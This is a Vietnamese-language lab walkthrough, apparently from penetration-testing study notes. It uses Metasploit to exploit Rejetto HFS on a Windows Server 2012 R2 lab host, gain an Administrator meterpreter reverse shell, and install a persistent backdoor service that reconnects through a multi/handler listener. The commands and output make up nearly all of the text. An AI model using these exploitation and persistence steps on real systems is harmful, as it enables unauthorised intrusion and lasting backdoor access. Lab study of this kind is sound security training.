

# Establishing Persistence On Windows

Là các kĩ thuật để duy trì quyền truy cập vào hệ thống qua các lần hệ thống khởi động lại, hay thay đổi thông tin đăng nhập

`service postgresql start && msfconsole -q`

`db_status`

`setg RHOSTS 10.2.20.185`

`setg RHOST 10.2.20.185`

`workspace -a Persistence`

`db_nmap -sV 10.2.20.185`

```
80/tcp    open  http 		 HttpFileServer httpd 2.3
135/tcp   open  msrpc		 Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
49152/tcp open  msrpc 		 Microsoft Windows RPC
49153/tcp open  msrpc 		 Microsoft Windows RPC
49154/tcp open  msrpc 		 Microsoft Windows RPC
49155/tcp open  msrpc 		 Microsoft Windows RPC
49156/tcp open  msrpc 		 Microsoft Windows RPC
```

Exploitation

`search type:exploit name:rejetto`

`use exploit/windows/http/rejetto_hfs_exec`

`set payload windows/x64/meterpreter/reverse_tcp`

run

`sysinfo`

    Computer        : WIN-OMCNBKR66MN
    OS              : Windows 2012 R2 (6.3 Build 9600).
    Architecture    : x64
    System Language : en_US
    Domain          : WORKGROUP
    Logged On Users : 1
    Meterpreter     : x64/windows

`getuid`
	Server username: WIN-OMCNBKR66MN\Administrator


Persistence

❗ Để thiết lập persistence, cần có quyền quản trị hoặc hệ thống.

`background`

`search platform:windows persistence`

`use exploit/windows/local/persistence_service`

`set payload windows/meterpreter/reverse_tcp`

`set SESSION 1`

`run`

Persistence thành công. Sau khi backdoor được cài đặt, nó sẽ tiếp tục chạy (ngay cả khi khởi động lại) như một dịch vụ và khi bật multi/handler sẽ nhận được kết nối từ dịch vụ đó.



`exit`

`sessions -K`   # Kill all sessions

`sessions`
	# No active sessions.

Khôi phục quyền truy cập vào hệ thống

`use multi/handler`

`set payload windows/meterpreter/reverse_tcp`  

thiết lập các tùy chọn LPORT, LHOST như đã chỉ định như khi sử dụng module PERSISTENCE.

`set LHOST eth1`

`set LPORT 4444`

`run`
